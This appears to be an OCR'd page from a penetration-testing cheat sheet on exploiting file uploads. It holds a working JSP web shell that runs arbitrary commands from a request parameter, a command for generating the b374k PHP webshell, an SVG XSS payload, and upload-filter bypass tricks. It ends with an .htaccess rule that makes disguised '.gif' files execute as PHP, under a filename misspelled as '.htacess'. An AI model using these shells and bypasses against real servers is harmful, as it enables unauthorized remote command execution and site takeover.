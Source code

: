 PHP functions used for os command execution
- system
- shell\_exec
- passthru
- backticks
- popen
- exec
- pcntl\_exec
- proc\_open

JSP shell
```
<%
if (request.getParameter("cmd") != null) {
    out.println("Output: " + request.getParameter("cmd") + "<br />");
    Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
    OutputStream os = p.getOutputStream();
    InputStream in = p.getInputStream();
    DataInputStream dis = new DataInputStream(in);
    String disr = dis.readLine();
    while ( disr != null ) {
        out.println(disr); disr = dis.readLine();
    }
}
%>
```

Multi-functional webshells: https://github.com/b374k/b374k
```
$ php -f index.php -- -o shell.php -p PASSWORD
```

We can upload files such as HTML or SVG to get XSS.
```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/
Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/
svg">
<script type="text/javascript">
alert("XSS: "+document.domain);
</script>
</svg>
```

Bypassing protections:
- Case sensitive blacklisting `pHp`
- MIME content type `text/php` to `image/gif`
- Bad extension checks: `.jpg.php`

Upload this as `.htacess` file. It executes
any file containing _php.gif as a valid PHP.
```
<FilesMatch "_php.gif">
SetHandler application/x-httpd-php
</FilesMatch>
```
